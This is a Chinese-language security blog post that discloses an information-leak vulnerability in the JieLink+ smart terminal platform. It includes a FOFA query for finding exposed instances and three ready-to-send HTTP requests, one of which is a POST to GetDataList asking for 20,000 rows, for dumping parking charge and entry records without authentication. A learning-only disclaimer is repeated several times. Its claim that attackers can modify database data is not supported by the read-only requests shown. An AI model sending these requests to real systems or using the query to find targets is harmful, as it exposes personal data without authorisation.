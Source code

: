 #  JieLink+智能终端操作平台 GetDataList 敏感信息泄露漏洞  
 HK安全小屋   2025-06-15 14:59  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
JieLink+智能终端操作平台多个接口处存在敏感信息泄露漏洞，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。  
  
  
影响版本：  
  
JieLink+智能终端操作平台  
  
  
FOFA:  
```
title="JieLink+智能终端操作平台"
```  
  
  
POC：  
```
POST /report/ParkChargeRecord/GetDataList HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
page=1&rows=20000
```  
  
成功获取模板信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI2FLfCCwxqka2JT51Udics0DTwUCvia6SUjlBfYlMYlx6Ry0BBS9AsGZ6jxGiaU6pqbttQtMNoVJIfcg/640?wx_fmt=png&from=appmsg "")  
  
还有两个利用点如下：  
  
POC1-POC2  
```
GET /Report/ParkCommon/GetParkInThroughDeivces HTTP/1.1
Host:
```  
```
GET /report/ParkOutRecord/GetDataList HTTP/1.1
Host:
```  
  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
